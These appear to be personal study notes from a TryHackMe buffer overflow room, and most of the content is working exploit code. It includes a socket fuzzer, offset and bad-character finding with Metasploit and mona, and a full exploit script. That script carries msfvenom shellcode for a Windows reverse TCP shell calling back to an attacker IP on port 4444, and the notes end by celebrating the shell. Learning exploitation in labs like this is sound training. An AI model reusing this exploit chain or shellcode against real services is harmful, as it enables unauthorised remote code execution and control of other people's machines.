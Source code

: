 # Buffer Overflow

# Linux

***************************************************Note: notes are taken from buffer overflow prep room on THM***************************************************

## Finding the offset

Create [fuzzer.py](http://fuzzer.py) to figure out the offset

```bash
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.178.35"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

However many bytes the application crashed at, create a pattern 400 bytes longer

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
```

Put the generated string into the `string` variable.

![Untitled](Buffer%20Overflow%20cbd4b5d368af4ff59e2732849f9435b2/Untitled.png)

### Mona

```bash
!mona config -set workingfolder c:\mona\%p
!mona findmsp -distance 2000 #adjust distance to be the same length you did for msf_pattern_create
```

In this output you should see a line which states:

`EIP contains normal pattern : ... (offset XXXX)`

![Untitled](Buffer%20Overflow%20cbd4b5d368af4ff59e2732849f9435b2/Untitled%201.png)

### Test offset

set the variables in the [fuzzer.py](http://fuzzer.py) script to be this and check that the EIP is 42424242

```bash
offset = 1306
string = prefix + "A" * offset + "BBBB"
```

![Untitled](Buffer%20Overflow%20cbd4b5d368af4ff59e2732849f9435b2/Untitled%202.png)

## Finding Bad Chars

look at generate_bad_chars.py

```bash
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

![Untitled](Buffer%20Overflow%20cbd4b5d368af4ff59e2732849f9435b2/Untitled%203.png)

Set the payload of [fuzzer.py](http://fuzzer.py) to be the bad chars

```bash
string = prefix + '\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
```

run the script

### Mona

```bash
!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a <address> # address that ESP points to 
```

## Jump address

```bash
!mona jmp -r esp -cpb "\x00" #add the other bad characters you found
```

You’ll see the jump addresses in the mona output.

[Exploit.py](http://Exploit.py) should look like this rn

```bash
import socket

ip = "10.10.178.35"
port = 1337

prefix = "OVERFLOW7 "
offset = 1306
overflow = "A" * offset
retn = '\xaf\x11\x50\x62' #0x625011af
padding = "\x90" * 16
# msfvenom -p windows/shell_reverse_tcp LHOST=10.2.20.239 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
payload = ("\xba\xa1\x99\x98\x7f\xdb\xc7\xd9\x74\x24\xf4\x58\x31\xc9"
"\xb1\x52\x31\x50\x12\x03\x50\x12\x83\x49\x65\x7a\x8a\x75"
"\x7e\xf9\x75\x85\x7f\x9e\xfc\x60\x4e\x9e\x9b\xe1\xe1\x2e"
"\xef\xa7\x0d\xc4\xbd\x53\x85\xa8\x69\x54\x2e\x06\x4c\x5b"
"\xaf\x3b\xac\xfa\x33\x46\xe1\xdc\x0a\x89\xf4\x1d\x4a\xf4"
"\xf5\x4f\x03\x72\xab\x7f\x20\xce\x70\xf4\x7a\xde\xf0\xe9"
"\xcb\xe1\xd1\xbc\x40\xb8\xf1\x3f\x84\xb0\xbb\x27\xc9\xfd"
"\x72\xdc\x39\x89\x84\x34\x70\x72\x2a\x79\xbc\x81\x32\xbe"
"\x7b\x7a\x41\xb6\x7f\x07\x52\x0d\xfd\xd3\xd7\x95\xa5\x90"
"\x40\x71\x57\x74\x16\xf2\x5b\x31\x5c\x5c\x78\xc4\xb1\xd7"
"\x84\x4d\x34\x37\x0d\x15\x13\x93\x55\xcd\x3a\x82\x33\xa0"
"\x43\xd4\x9b\x1d\xe6\x9f\x36\x49\x9b\xc2\x5e\xbe\x96\xfc"
"\x9e\xa8\xa1\x8f\xac\x77\x1a\x07\x9d\xf0\x84\xd0\xe2\x2a"
"\x70\x4e\x1d\xd5\x81\x47\xda\x81\xd1\xff\xcb\xa9\xb9\xff"
"\xf4\x7f\x6d\xaf\x5a\xd0\xce\x1f\x1b\x80\xa6\x75\x94\xff"
"\xd7\x76\x7e\x68\x7d\x8d\xe9\x9d\x80\x99\x06\xc9\x86\xa1"
"\xc9\x56\x0e\x47\x83\x76\x46\xd0\x3c\xee\xc3\xaa\xdd\xef"
"\xd9\xd7\xde\x64\xee\x28\x90\x8c\x9b\x3a\x45\x7d\xd6\x60"
"\xc0\x82\xcc\x0c\x8e\x11\x8b\xcc\xd9\x09\x04\x9b\x8e\xfc"
"\x5d\x49\x23\xa6\xf7\x6f\xbe\x3e\x3f\x2b\x65\x83\xbe\xb2"
"\xe8\xbf\xe4\xa4\x34\x3f\xa1\x90\xe8\x16\x7f\x4e\x4f\xc1"
"\x31\x38\x19\xbe\x9b\xac\xdc\x8c\x1b\xaa\xe0\xd8\xed\x52"
"\x50\xb5\xab\x6d\x5d\x51\x3c\x16\x83\xc1\xc3\xcd\x07\xe1"
"\x21\xc7\x7d\x8a\xff\x82\x3f\xd7\xff\x79\x03\xee\x83\x8b"
"\xfc\x15\x9b\xfe\xf9\x52\x1b\x13\x70\xca\xce\x13\x27\xeb"
"\xda")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

WE GOT A SHELL (upper panel of terminal)

![Untitled](Buffer%20Overflow%20cbd4b5d368af4ff59e2732849f9435b2/Untitled%204.png)

# Linux Buffer Overflows

## Tools

- PWK talks about edb
- Can also use gdb, ollydbg